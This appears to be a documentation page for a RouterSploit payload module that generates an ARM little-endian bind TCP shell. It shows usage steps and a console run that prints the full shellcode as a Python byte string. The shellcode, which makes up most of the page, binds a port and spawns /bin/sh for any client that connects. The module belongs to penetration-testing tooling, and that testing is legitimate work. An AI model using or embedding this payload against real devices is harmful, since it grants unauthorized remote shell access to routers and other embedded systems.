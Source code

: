 ## Description

Module generates payload that creates interactive tcp bind shell for ARMLE architecture.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/armle/bind_tcp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates armle bind shell tcp payload

## Scenarios

```
rsf > use payloads/armle/bind_tcp
rsf (ARMLE Bind TCP) > set rport 4321
[+] rport => 4321
rsf (ARMLE Bind TCP) > run
[*] Running module...
[*] Generating payload
[+] Building payload for python
payload = (
    "\x02\x00\xa0\xe3\x01\x10\xa0\xe3\x06\x20\xa0\xe3\x07\x00\x2d"
    "\xe9\x01\x00\xa0\xe3\x0d\x10\xa0\xe1\x66\x00\x90\xef\x0c\xd0"
    "\x8d\xe2\x00\x60\xa0\xe1\xe1\x10\xa0\xe3\x10\x70\xa0\xe3\x01"
    "\x1c\xa0\xe1\x07\x18\x81\xe0\x02\x10\x81\xe2\x02\x20\x42\xe0"
    "\x06\x00\x2d\xe9\x0d\x10\xa0\xe1\x10\x20\xa0\xe3\x07\x00\x2d"
    "\xe9\x02\x00\xa0\xe3\x0d\x10\xa0\xe1\x66\x00\x90\xef\x14\xd0"
    "\x8d\xe2\x06\x00\xa0\xe1\x03\x00\x2d\xe9\x04\x00\xa0\xe3\x0d"
    "\x10\xa0\xe1\x66\x00\x90\xef\x08\xd0\x8d\xe2\x06\x00\xa0\xe1"
    "\x01\x10\x41\xe0\x02\x20\x42\xe0\x07\x00\x2d\xe9\x05\x00\xa0"
    "\xe3\x0d\x10\xa0\xe1\x66\x00\x90\xef\x0c\xd0\x8d\xe2\x00\x60"
    "\xa0\xe1\x02\x10\xa0\xe3\x06\x00\xa0\xe1\x3f\x00\x90\xef\x01"
    "\x10\x51\xe2\xfb\xff\xff\x5a\x04\x10\x4d\xe2\x02\x20\x42\xe0"
    "\x2f\x30\xa0\xe3\x62\x70\xa0\xe3\x07\x34\x83\xe0\x69\x70\xa0"
    "\xe3\x07\x38\x83\xe0\x6e\x70\xa0\xe3\x07\x3c\x83\xe0\x2f\x40"
    "\xa0\xe3\x73\x70\xa0\xe3\x07\x44\x84\xe0\x68\x70\xa0\xe3\x07"
    "\x48\x84\xe0\x73\x50\xa0\xe3\x68\x70\xa0\xe3\x07\x54\x85\xe0"
    "\x3e\x00\x2d\xe9\x08\x00\x8d\xe2\x00\x10\x8d\xe2\x04\x20\x8d"
    "\xe2\x0b\x00\x90\xef"
)
```
